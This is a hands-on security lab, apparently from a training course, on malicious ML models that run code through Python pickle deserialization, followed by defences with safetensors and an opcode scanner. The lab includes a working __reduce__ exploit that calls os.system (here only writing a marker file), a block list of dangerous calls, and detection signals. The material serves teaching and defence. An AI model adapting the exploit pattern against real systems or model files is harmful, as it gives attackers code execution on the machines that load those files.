

# Lab 6.1: AI/ML Model Supply Chain

<div class="lab-meta">
  <span>Understand: ~10 min | Break: ~10 min | Defend: ~10 min | Detect: ~5 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../../tier-1/1.2-dependency-confusion/">Lab 1.2</a></span>
</div>

ML models are downloaded from registries like HuggingFace Hub and loaded into production systems. The dominant serialization format (Python's pickle) **executes arbitrary code on load**. When you call `torch.load("model.pt")`, pickle deserializes the file by calling `__reduce__` methods that can run any Python code. A malicious model gets code execution on every machine that loads it.

---

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Model Registry | `model-registry:8080` | Simulated HuggingFace Hub with legitimate and malicious models |
| Workstation | `workstation` | PyTorch, safetensors, and model scanning tools installed |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. ML Models Are Artifacts"

    **Goal:** Understand how ML models are distributed, stored, and loaded, and why the default format is dangerous.

### Step 1: Explore the model registry

```bash
# List available models in the registry
curl -s http://model-registry:8080/api/models | python -m json.tool

# Download a legitimate model
curl -s http://model-registry:8080/models/sentiment-classifier/model.pt \
    -o /app/models/legitimate_model.pt

# Check the file
file /app/models/legitimate_model.pt
ls -lh /app/models/legitimate_model.pt
```

### Step 2: Understand pickle serialization

```bash
python3 << 'PYEOF'
import pickle, pickletools, io

# A simple Python object, pickled
data = {"weights": [1.0, 2.0, 3.0], "bias": 0.5}
serialized = pickle.dumps(data)

print("=== Pickle opcodes for a safe object ===")
pickletools.dis(serialized)
PYEOF
```

Pickle reconstructs Python objects from a bytecode stream. The `REDUCE` opcode calls arbitrary functions. This is by design.

### Step 3: Understand the attack surface

```bash
python3 << 'PYEOF'
import pickle, pickletools, io

class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ("echo PWNED > /tmp/ml-model-pwned",))

serialized = pickle.dumps(Exploit())

print("=== Pickle opcodes for a malicious object ===")
pickletools.dis(serialized)
print("\nNotice the REDUCE opcode calling os.system")
PYEOF
```

The `__reduce__` method tells pickle how to reconstruct the object. An attacker sets it to call `os.system()`, `subprocess.run()`, or any other callable. **This executes during deserialization, before you ever inspect the object.**

### Step 4: See how models are typically loaded

```bash
cat /app/load_model.py
```

The standard approach is `torch.load("model.pt")`, which internally calls `pickle.load()`. No verification, no sandboxing.

---

???+ warning "Phase 2: BREAK. Malicious Model Execution"

    **Goal:** Load a malicious model and observe arbitrary code execution during `torch.load()`.

### Step 1: Download the malicious model

```bash
curl -s http://model-registry:8080/models/sentiment-classifier-v2/model.pt \
    -o /app/models/malicious_model.pt
```

### Step 2: Load the model

```bash
python3 -c "
import torch
print('Loading model...')
model = torch.load('/app/models/malicious_model.pt', weights_only=False)
print('Model loaded successfully')
print('Model keys:', list(model.keys()) if isinstance(model, dict) else type(model))
"
```

### Step 3: Check for compromise

```bash
cat /tmp/ml-model-pwned
```

**COMPROMISED.** The malicious model executed code during `torch.load()`. No errors, no warnings. The model even works normally for inference, making detection harder.

### Step 4: Examine what the attacker embedded

```bash
python3 << 'PYEOF'
import pickletools
with open("/app/models/malicious_model.pt", "rb") as f:
    pickletools.dis(f, annotate=1)
PYEOF
```

Look for `REDUCE` opcodes followed by calls to `os.system`, `subprocess`, `exec`, or `eval`.

---

!!! abstract "Checkpoint"
    You should now have a compromise marker at `/tmp/ml-model-pwned` and understand how pickle deserialization enables arbitrary code execution. If `cat /tmp/ml-model-pwned` shows nothing, re-run Phase 2.

---

???+ success "Phase 3: DEFEND. Safe Model Loading"

    **Goal:** Eliminate pickle deserialization as an attack vector by switching to safetensors and implementing model scanning.

### Fix 1: Remove the compromise and switch to safetensors

```bash
rm -f /tmp/ml-model-pwned

python3 << 'PYEOF'
import torch
from safetensors.torch import save_file

weights = torch.load("/app/models/legitimate_model.pt", weights_only=True)
save_file(weights, "/app/models/model.safetensors")
print("Saved model in safetensors format")
print("File size:", __import__("os").path.getsize("/app/models/model.safetensors"), "bytes")
PYEOF
```

### Fix 2: Create a safe model loader

```bash
cat > /app/safe_loader.py << 'PYEOF'
"""Safe model loader. Safetensors only, no pickle."""
from safetensors.torch import load_file

def load_model(path: str) -> dict:
    if not path.endswith(".safetensors"):
        raise ValueError(
            f"Refusing to load {path}: only .safetensors format is allowed. "
            f"Convert pickle models with: safetensors convert <file>"
        )
    return load_file(path)

if __name__ == "__main__":
    import sys
    path = sys.argv[1] if len(sys.argv) > 1 else "/app/models/model.safetensors"
    weights = load_model(path)
    print(f"Loaded model from {path}")
    print(f"Keys: {list(weights.keys())}")
    for k, v in weights.items():
        print(f"  {k}: shape={v.shape}, dtype={v.dtype}")
PYEOF
```

### Fix 3: Create a model scanning tool

```bash
cat > /app/scan_model.py << 'PYEOF'
"""Scan pickle-based model files for suspicious opcodes."""
import pickletools
import sys

DANGEROUS_CALLS = [
    "os.system", "os.popen", "subprocess", "exec", "eval",
    "builtins.exec", "builtins.eval", "importlib", "nt.system",
    "posix.system", "__import__", "commands.getoutput",
    "shutil.rmtree", "webbrowser.open"
]

def scan_model(filepath: str) -> list:
    findings = []
    try:
        with open(filepath, "rb") as f:
            content = f.read()

        for call in DANGEROUS_CALLS:
            if call.encode() in content:
                findings.append(f"CRITICAL: Found reference to '{call}' in pickle stream")

        try:
            ops = pickletools.genops(content)
            for opcode, arg, pos in ops:
                if opcode.name in ("REDUCE", "INST", "OBJ", "NEWOBJ"):
                    findings.append(
                        f"WARNING: {opcode.name} opcode at position {pos} "
                        f"(executes code during deserialization)"
                    )
        except Exception:
            findings.append("WARNING: Could not parse pickle opcodes (may be nested/compressed)")

    except Exception as e:
        findings.append(f"ERROR: Could not scan file: {e}")

    return findings

if __name__ == "__main__":
    filepath = sys.argv[1] if len(sys.argv) > 1 else "/app/models/malicious_model.pt"
    print(f"Scanning {filepath}...")
    findings = scan_model(filepath)
    if findings:
        print(f"\n{'='*60}")
        print(f"SCAN RESULTS: {len(findings)} finding(s)")
        print(f"{'='*60}")
        for f in findings:
            print(f"  {f}")
        print(f"\nDO NOT LOAD THIS MODEL with torch.load() or pickle.load()")
    else:
        print("No suspicious patterns found (but safetensors is still preferred)")
PYEOF
```

### Fix 4: Verify the defense

```bash
# Test the safe loader with safetensors
python3 /app/safe_loader.py /app/models/model.safetensors

# Test that the safe loader rejects pickle files
python3 /app/safe_loader.py /app/models/malicious_model.pt 2>&1 || true

# Scan the malicious model
python3 /app/scan_model.py /app/models/malicious_model.pt

# Verify no compromise marker
test ! -f /tmp/ml-model-pwned && echo "CLEAN: No compromise detected"
```

### Final verification

```bash
weaklink verify 6.1
```

---

??? danger "Phase 4: DETECT. Catching Malicious Model Loading"

    **Goal:** Detect malicious model loading attempts using process monitoring and file integrity checks.

ML model attacks are hard to detect because `torch.load()` is legitimate. Key signals: **unexpected child processes from Python model loading** and **network activity during deserialization**.

Detection targets:

- Python processes spawning shell/curl/wget during model loading
- File writes to `/tmp/` during `torch.load()`
- Outbound connections from ML inference containers
- Models downloaded from untrusted sources
- Models with unusual file sizes for their architecture

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Malicious model published to model registry |
| **Command and Scripting Interpreter: Python** | [T1059.006](https://attack.mitre.org/techniques/T1059/006/) | Pickle deserialization executes arbitrary Python |
| **Execution Guardrails** | [T1480](https://attack.mitre.org/techniques/T1480/) | Payload may only activate in specific environments (GPU servers, production) |

---

??? tip "SOC Relevance"

    **Alerts:** "Unexpected child process from Python ML workload" (EDR), "Outbound HTTP/DNS from inference container" (firewall), "File creation in /tmp during model deserialization" (FIM).

    ML model supply chain attacks target high-value GPU infrastructure with access to sensitive training data and cloud credentials. Unlike npm/PyPI attacks, these execute code on model load with no package manager intermediary.

    **Triage:** Check model source (approved registry?), check format (`.pt`/`.pkl` = pickle = dangerous; `.safetensors` = safe), check process tree for unexpected children, check for outbound connections from ML workloads.

---

## What You Learned

1. **ML models are code.** Pickle-based formats execute arbitrary Python during deserialization. Every model download is a potential code execution vector.
2. **safetensors eliminates the risk.** The format stores only tensor data with no executable code.
3. **Model registries are the new package registries.** HuggingFace Hub and model zoos need the same scrutiny as PyPI or npm.

## Further Reading

- [HuggingFace: Safetensors](https://huggingface.co/docs/safetensors/)
- [Trail of Bits: Fickling. pickle security analysis](https://github.com/trailofbits/fickling)
- [NVIDIA: Securing the AI/ML Supply Chain](https://developer.nvidia.com/blog/securing-the-ai-supply-chain/)
